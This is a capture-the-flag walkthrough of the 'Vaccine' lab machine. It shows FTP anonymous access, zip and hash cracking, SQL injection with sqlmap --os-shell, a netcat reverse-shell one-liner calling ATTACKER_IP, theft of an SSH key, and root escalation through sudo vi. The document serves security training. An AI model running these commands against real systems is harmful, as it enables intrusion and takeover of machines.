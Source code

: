 # Vaccine

##### Difficulty: [ Very Easy ]

**Tags:** `Linux`,  `FTP`,  `SQL`,  `SUID`

---

##### Written: 21/12/2021

##### IP address: 10.129.48.65

---

### [ Besides SSH and HTTP, what other service is hosted on this box? ]

Let's begin with a basic **Nmap** scan on the target machine:

```
sudo nmap -sC -sV -vv -T4 10.129.48.65
```

<img style="float: left;" src="screenshots/screenshot1.png">

From the results, we can see that **3** ports are open: **21 (FTP)**, **22 (SSH)** and **80 (HTTP)**

The other service being hosted: **FTP**

---

### [ This service can be configured to allow login with any password for specific username. What is that username? ]

FTP can be configured with **anonymous login**. This allows any user to log into the server without needing to provide a password, as long as they log in with the username 'anonymous'.

If we look at the nmap results, we can see that anonymous login has been enabled:

<img style="float: left;" src="screenshots/screenshot2.png">

<br>

Specific Username: **anonymous**

---

### [ What is the name of the file downloaded over this service? ]

Let's log into the FTP server with the username 'anonymous':

```
ftp 10.129.48.65
```

<img style="float: left;" src="screenshots/screenshot3.png">

There is a file called **backup.zip** in the server. 

---

### [ What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts? ]

**zip2john**

---

### [ What is the password for the admin user on the website? ]

We can download **backup.zip** onto our local machine by using the `get` command.

After doing so, I tried to unzip it:

<img style="float: left;" src="screenshots/screenshot4.png">

Unfortunately, looks like we need a password.

To crack the password, we can use `zip2john` to convert the zip file into a format that is readable by `John the Ripper`. 

```
zip2john backup.zip > backup_to_crack
```

Next, we run `john` on it:

```
john backup_to_crack --wordlist=/usr/share/wordlists/rockyou.txt
```

<img style="float: left;" src="screenshots/screenshot5.png">

We now have the password to unzip the file - **741852963**

<br>

Let's unzip **backup.zip** now.

<img style="float: left;" src="screenshots/screenshot6.png">

We get 2 files: **index.php** and **style.css**

If we look at **index.php**, we can find the admin credentials for the HTTP website:

<img style="float: left;" src="screenshots/screenshot7.png">

The password is hashed, so let's use an online hash cracker to crack it. My go-to is www.hashes.com:

<img style="float: left;" src="screenshots/screenshot8.png">

The admin password is: **qwerty789**

---

### [ What option can be passed to sqlmap to try to get command execution via the sql injection? ]

**From the help menu of sqlmap:**

<img style="float: left;" src="screenshots/screenshot9.png">

Option: **--os-shell**

---

### [ What program can the postgres user run as root using sudo? ]

Visit the HTTP website running on port 80, we get a login page.

After logging in with credentials - **admin:qwerty789**, we are brought to the following dashboard:

<img style="float: left;" src="screenshots/screenshot10.png">

There doesn't seem to be much, although there is a table containing different car models. It's most likely that this table is connected to a backend database, which means that it could be susceptible to a SQL Injection. If we wish to carry out an SQLi attack, we need to first find an injectable point.

Let's try to search for something by using the search bar on the top-right.

<img style="float: left;" src="screenshots/screenshot11.png">

Looks like there is a `search` parameter being sent with the request. This could be our injection point!

Let's now run a `sqlmap` scan on this parameter to see if its injectable:

```
sqlmap -u http://10.129.48.65/dashboard.php?search= -p search --cookie="PHPSESSID=iah3il7p0qls36gkp52rguhj4a" --risk=3 --level=5 --os-shell --batch
```

Something important to note is that we need to supply the cookies that we were given after we had successfully logged in. This can be done with `--cookie`

We also specify that we want to target the `search` parameter by using the `-p` option.

Finally, we run `--os-shell` so that if we do manage to carry out an SQLi, we can open an interactive OS shell where we can run commands.

After the scan is done, we find out that `search` is vulnerable to many different types of injection payloads.

<img style="float: left;" src="screenshots/screenshot12.png">

Using those payloads, `sqlmap` then opens a shell for us:

<img style="float: left;" src="screenshots/screenshot13.png">

Nice, now that we can run commands, let's try to open a reverse shell. I'll be using the following payload from: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 4444 >/tmp/f
```

<img style="float: left;" src="screenshots/screenshot14.png">

And with that, we've successfully opened a reverse shell into the target machine!

<br>

Looking around the machine, I discovered that the home directory of the **postgres** user was in **/var/lib/postgresql**. There is a hidden directory called **.ssh** which actually contains the **private ssh key** of postgres:

<img style="float: left;" src="screenshots/screenshot16.png">

With this private key, let's go ahead and use it to log into postgres's account via ssh. This is so that we do not need to rely on the reverse shell as it is not very reliable and disconnects every few minutes. 

To do so, just copy the private key over to a file on our local machine, set the correct permissions (400 or 600) and we can then use it to log in:

<img style="float: left;" src="screenshots/screenshot17.png">

At this stage, we need to find out the password of the postgres user if we wish to find out his **sudo privileges**.

It took me a very long time of digging around the machine before I finally found the password in the **dashboard.php** file located at **/var/www/html**:

<img style="float: left;" src="screenshots/screenshot18.png">

postgres' password is: **P@s5w0rd!**

<br>

With that, we can check postgres' sudo privileges with `sudo -l`:

<img style="float: left;" src="screenshots/screenshot19.png">

From the results, we can see that postgres can run `vi` as root.

---

### [ Submit user flag ]

The user flag can be found in postgres' home directory, which is located at **/var/lib/postgresql**.

<img style="float: left;" src="screenshots/screenshot15.png">

---

### [ Submit root flag ]

Going back to postgres' sudo privileges, we can only run `vi` as root if we use it to open the **/etc/postgresql/11/main/pg_hba.conf** file.

This is fine as there is a way to spawn a shell while we are inside the text editor. 

First, we run `sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`. This will open the **pg_hba.conf** file in the text editor. Note that we are running `vi` as root right now.

<img style="float: left;" src="screenshots/screenshot20.png">

Next, we type the following command in `vi` to open a shell:

```
:!/bin/sh
```

<img style="float: left;" src="screenshots/screenshot21.png">

With that, we have opened a privileged shell as root! 

*(Privesc method is from: https://gtfobins.github.io/gtfobins/vi/)*

We can then obtain the root flag from **/root**:

<img style="float: left;" src="screenshots/screenshot22.png">
